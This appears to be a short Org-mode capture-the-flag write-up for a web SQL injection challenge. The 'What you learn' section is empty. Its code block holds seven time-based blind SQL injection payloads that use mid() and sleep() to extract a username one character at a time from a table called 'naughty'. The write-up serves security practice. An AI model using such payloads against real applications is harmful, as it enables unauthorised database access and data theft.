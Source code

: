 * SQLi 1

** What you learn


** Writeup
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/cybersecurity-ctf/web-501-sqli-1/WRITEUP_att
:END:

#+BEGIN_SRC sql
' or (select if(mid(username,1,1)='e', sleep(1), 0) from naughty); #
' or (select if(mid(username,2,1)='g', sleep(1), 0) from naughty); #
' or (select if(mid(username,3,1)='i', sleep(1), 0) from naughty); #
' or (select if(mid(username,4,1)='s', sleep(1), 0) from naughty); #
' or (select if(mid(username,5,1)='c', sleep(1), 0) from naughty); #
' or (select if(mid(username,6,1)='h', sleep(1), 0) from naughty); #
' or (select if(mid(username,7,1)='e', sleep(1), 0) from naughty); #
#+END_SRC
